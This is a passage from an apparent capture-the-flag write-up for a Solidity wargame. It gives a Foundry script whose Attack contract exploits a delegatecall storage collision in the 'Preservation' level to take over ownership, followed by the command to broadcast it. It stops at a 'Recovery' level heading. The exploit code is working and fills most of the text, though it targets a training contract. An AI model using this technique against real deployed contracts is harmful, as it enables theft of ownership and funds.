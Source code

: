 **Level16Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level16.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack{

      address public timeZone1Library;
      address public timeZone2Library;
      address public owner; 
    
    function exploit () external{
          Preservation instance = Preservation(0xA1979400E9bbCEcd6B13aA814281A6B95866A077);
        //updating the timeZone1Library with attack contract address
          instance.setFirstTime(uint(uint160(address(this))));
          /*
          when we call  the setFirstTime f'n again , 
          it delegatecall to the attack contract and then results in changing the owner to msg.sender
           */
          instance.setFirstTime(uint(uint160(msg.sender)));
    }
    function setTime(uint _owner) external{
          owner = address(uint160(_owner));
    }
    }

contract Level16Sol is Script{
      function run() external{
            Preservation preservation = Preservation(0xA1979400E9bbCEcd6B13aA814281A6B95866A077);
            vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
            Attack attack = new Attack();
            attack.exploit();
            vm.stopBroadcast();
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level16Solution.s.sol:Level16Sol --rpc-url $RPC_URL --broadcast
```

## Recovery

**Level17.sol**
